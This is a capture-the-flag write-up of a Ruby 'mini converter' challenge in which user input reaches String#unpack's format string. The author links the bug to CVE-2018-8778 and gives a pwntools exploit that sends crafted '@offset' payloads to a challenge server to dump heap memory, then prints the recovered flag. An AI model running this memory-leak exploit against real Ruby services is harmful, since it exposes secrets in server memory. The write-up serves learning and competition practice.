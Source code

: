 mini converter
==================

We are given the following Ruby code:
```ruby
flag = "FLAG{******************************}"
# Can you read this? really???? lol

while true

    puts "[CONVERTER IN RUBY]"
    STDOUT.flush
    sleep(0.5)
    puts "Type something to convert\n\n"
    STDOUT.flush
    puts "[*] readme!"
    STDOUT.flush
    puts "When you want to type hex, contain '0x' at the first. e.g 0x41414a"
    STDOUT.flush
    puts "When you want to type string, just type string. e.g hello world"
    STDOUT.flush
    puts "When you want to type int, just type integer. e.g 102939"
    STDOUT.flush

    puts "type exit if you want to exit"
    STDOUT.flush

    input = gets.chomp
    puts input
    STDOUT.flush

    if input  == "exit"
        file_write()
        exit

    end

    puts "What do you want to convert?"
    STDOUT.flush

    if input[0,2] == "0x"
        puts "hex"
        STDOUT.flush
        puts "1. integer"
        STDOUT.flush
        puts "2. string"
        STDOUT.flush

        flag = 1
    
    elsif input =~/\D/
        puts "string"
        STDOUT.flush
        puts "1. integer"
        STDOUT.flush
        puts "2. hex"
        STDOUT.flush

        flag = 2
    
    else
        puts "int"
        STDOUT.flush
        puts "1. string"
        STDOUT.flush
        puts "2. hex"
        STDOUT.flush

        flag = 3
    end

    num = gets.to_i

    if flag == 1
        if num == 1
            puts "hex to integer"
            STDOUT.flush
            puts Integer(input)
            STDOUT.flush

        elsif num == 2
            puts "hex to string"
            STDOUT.flush
            tmp = []
            tmp << input[2..-1]
            puts tmp.pack("H*")
            STDOUT.flush
        
        else
            puts "invalid"
            STDOUT.flush
        end

    elsif flag == 2
        if num == 1
            puts "string to integer"
            STDOUT.flush
            puts input.unpack("C*#{input}.length")
            STDOUT.flush
    
        elsif num == 2
            puts "string to hex"
            STDOUT.flush
            puts input.unpack("H*#{input}.length")[0]
            STDOUT.flush
    
        else
            puts "invalid2"
            STDOUT.flush
        end

    elsif flag == 3
        if num == 1
            puts "int to string"
            STDOUT.flush
    
        elsif num == 2
            puts "int to hex"
            STDOUT.flush
            puts input.to_i.to_s(16)
            STDOUT.flush
        else
            puts "invalid3"
            STDOUT.flush
        end

    else
        puts "invalid4"
        STDOUT.flush

    end

end

```

Variable `flag`, which holds the flag string, is overwritten with either 1, 2 or 3 as our input type. Our job is to somehow recover that data.

The two conversion cases `"string to integer"` and `"string to hex"` immediately caught my attention since it looked *so offending*. Variable `input` which is completely controlled by our input is interpolated into [format string of String#unpack](https://www.rubydoc.info/stdlib/core/String:unpack) without any validation whatsoever.

The intended code is probably something like:
```ruby
input.unpack("C*#{input.length}")
```
instead of the given
```ruby
input.unpack("C*#{input}.length")
```

### **Format-string bug?**

After minutes of googling, I found a FSB-style vulnerability + integer overflow in `String#unpack` of Ruby version < 2.5.1 known as [CVE-2018-8778](https://nvd.nist.gov/vuln/detail/CVE-2018-8778). A good article explaining the vulnerability is located [here](https://blog.sqreen.io/buffer-under-read-ruby/).

The vulnerability can be used to acquire arbitrary read, as we can specify any offset and data length to read. By leaking heap memory of lower address, we are able to read the original flag.

Since `"string to integer"` case allows us to print a whole array instead of `"string to hex"` case which prints only the first element, the former is used. Below is the exploit code.

```python
from pwn import *

#context.log_level = 'debug'

p = remote('110.10.147.105', 12137)

p.recvuntil('to exit\n')

targlen = 0x10000
for i in range(1, 100):
    payload = 'a @{}a{} '.format(2**64 - targlen*i + 1, targlen + 0x100)
    p.sendline(payload)
    p.recvuntil('hex\n')
    p.sendline('1')
    print('memdump #{}'.format(i))
    data = p.recvuntil('to exit\n')
    if 'FLAG{' in data:
        st = data.find('FLAG{')
        print data[st:data.find('}', st)+1]
        break
```

The exploit code dumps `0x10100` continuous bytes at offset `-0x10000*i` in each loop. When the flag string prefix `'FLAG{'` is found, we print out until the matching end `'}'`.

**FLAG: `Run away with me.It'll be the way you want it`**